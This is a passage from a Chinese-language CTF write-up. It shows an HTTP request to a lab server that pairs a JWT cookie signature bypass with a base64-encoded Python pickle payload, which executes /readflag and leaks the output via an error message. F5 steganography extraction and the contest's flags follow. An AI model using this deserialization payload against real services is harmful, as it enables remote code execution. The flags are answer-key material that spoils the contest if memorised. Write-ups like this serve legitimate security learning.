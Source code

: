 cookie用引号绕过
```http
POST http://10.202.160.112:32829/admin
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwidWlkIjoiNTIwMTMxNCJ9."IpMYuMB1-SZp-nyOvqfXMh4zvPD2PCgwrO9OyEJm644"
Content-Type: application/x-www-form-urlencoded

cmd=gASVsQAAAAAAAACMCGJ1aWx0aW5zlIwEZXhlY5STlIyVCmltcG9ydCBvcyxiYXNlNjQKb3V0cHV0ID0gb3MucG9wZW4oJy9yZWFkZmxhZycpLnJlYWQoKQplbmNvZGVkX291dHB1dCA9IGJhc2U2NC5iNjRlbmNvZGUob3V0cHV0LmVuY29kZSgpKS5kZWNvZGUoKQpyYWlzZSBWYWx1ZUVycm9yKGVuY29kZWRfb3V0cHV0KQqUhZRSlC4=
```

报错回显：

Response:

```http
HTTP/1.1 200 OK
content-length: 75
connection: close
content-type: text/plain; charset=utf-8

Error: Q1NBQ1RGe04wd191X0tuMHdfaDBXX1AxY0sxM193MHJrc184NzI2YTMwZDA1ZGZ9Cg==
```

`CSACTF{N0w_u_Kn0w_h0W_P1cK13_w0rks_8726a30d05df}`

# babySteg

搜索comments中字段`JPEG Encoder Copyright 1998, James R. Weeks and BioElectroMech.`知是[matthewgao/F5-steganography: F5 steganography](https://github.com/matthewgao/F5-steganography)

文件尾base64解码为`CSACTF{1T_SEeMs_L1kE_4_fL49}`推测为密码（灵感时刻.jpg）

是故运行

```bash
$ [Redacted]/jre-1.8/bin/java Extract ./babySteg1.jpg -p "CSACTF{1T_SEeMs_L1kE_4_fL49}"
Huffman decoding starts
Permutation starts
554496 indices shuffled
Extraction starts
Length of embedded file: 39 bytes
(1, 127, 7) code used
```

得到输出`CSACTF{N0W_u_kNoW_f5_4Nd_7He_rE41_fL49}`

# 签退

略。`CSACTF{H0p3_u_h4v3_a_go0d_7im3}`

# babyRsa
